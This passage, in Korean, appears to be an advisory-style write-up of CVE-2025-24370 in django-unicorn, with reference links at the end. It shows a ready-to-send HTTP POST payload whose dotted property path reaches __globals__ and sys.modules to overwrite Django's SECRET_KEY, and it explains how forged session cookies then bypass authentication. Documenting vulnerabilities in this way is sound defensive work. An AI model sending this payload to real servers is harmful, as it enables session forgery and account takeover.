공격자는 `SECRET_KEY`에 접근해 이를 임의의 값으로 덮어쓸 수 있습니다.

```jsx
POST /unicorn/message/todo HTTP/1.1

{
  "id": 123,
  "actionQueue": [
    {
      "type": "syncInput",
      "payload": {
        **"name": "__init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY",**
        "value": "test"
      }
    }
  ],
  "data": {
    "task": "",
    "tasks": []
  },
  "epoch": "123",
  "checksum": "XXX"
}
```

`set_property_value` 함수는 **점(`.`)으로 구분된 경로를 따라 객체 내부 속성에 접근**합니다.

하지만 경로에 대한 검증이 부족하기 때문에, 공격자는 `__globals__`와 같은 **Magic 속성**에도 접근할 수 있게 됩니다.

예를 들어, 공격자는 `property_name`에 다음과 같은 경로를 전달할 수 있습니다:

**__init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY**

여기서 `__globals__`는 Python 함수 객체가 참조하는 **전역 네임스페이스**로,

이를 통해 `sys.modules`에 접근하고,

`django.template.backends.django.settings.SECRET_KEY`까지 도달할 수 있습니다.

결과적으로 공격자는 Django 애플리케이션의 **비밀 키(`SECRET_KEY`)를 런타임에서 변조**할 수 있으며,

이 키를 기반으로 **위조된 세션 쿠키를 생성**해

다른 사용자로 위장하여 **인증을 우회**할 수 있게 됩니다.

### 작동 원리

- `property_name`에 다음 경로를 설정:
    
    `__init__.__globals__.sys.modules.django.template.backends.django.settings.SECRET_KEY`
    
- 이는 다음 과정을 따라가게 됩니다:
    - `__init__.__globals__`: 전역 네임스페이스 접근
    - `sys.modules`: 로딩된 모든 모듈에 접근
    - `django.template.backends.django.settings`: Django 설정 객체
    - `SECRET_KEY`: 실제 세션 서명에 사용되는 비밀 키
- 이 결과, 공격자는 **SECRET_KEY를 런타임에서 덮어쓰고**,
    
    **임의의 세션 쿠키를 생성하여 인증 우회**가 가능합니다.
    

### 공식 자료 / 참고 링크

> https://nvd.nist.gov/vuln/detail/CVE-2025-24370
> 
> 
> https://www.cve.org/CVERecord?id=CVE-2025-24370
> 
> https://access.redhat.com/security/cve/cve-2025-24370
> 
> https://feedly.com/cve/CVE-2025-24370
> 
> https://security.snyk.io/vuln/SNYK-PYTHON-DJANGOUNICORN-8685541
> 
> [https://github.com/advisories/GHSA-g9wf-5777-gq43](https://github.com/advisories/GHSA-g9wf-5777-gq43)
>
